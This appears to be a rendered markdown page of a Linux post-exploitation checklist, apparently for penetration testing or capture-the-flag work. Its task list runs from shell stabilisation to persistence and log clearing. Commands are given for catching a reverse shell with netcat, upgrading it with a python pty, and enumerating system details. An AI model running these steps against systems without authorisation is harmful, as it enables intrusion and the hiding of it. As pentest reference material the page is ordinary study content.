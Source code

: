 ## Task List

- [ ] [Stabilize shell](#stabilize-shell)
- [ ] [Copy tools to the target](#copy-tools-to-the-target)
- [ ] [Enumerate](#enumerate)
  - [ ] [System Info](#system-info)
  - [ ] [Permissions](#permissions)
  - [ ] [Processes and Services](#processes-and-services)
  - [ ] [Networking](#networking)
  - [ ] [Users and Groups](#users-and-groups)
  - [ ] [Tasks](#tasks)
  - [ ] [Logs](#logs)
  - [ ] [Installed software](#installed-software)
- [ ] [Finalize](#Finalize)
  - [ ] [Establish tunnel](#establish-tunnel)
  - [ ] [Copy information from the target](#copy-tools)
  - [ ] [Establish persistance](#establish-persistance)
  - [ ] [Clear logs]


## Stabilize Shell  

- Listen to reverse shell:

```bash
rlwrap nc -lvnp 443
```

- Upgrade the shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")' # Explicit python version may be required.
```

## Copy tools to the target

*See file transfer*

## Enumerate

### System Info

- System specific info

```sh
cat /etc/issue 
cat /etc/os-release
cat /proc/version 
uname -a
arch
id
```

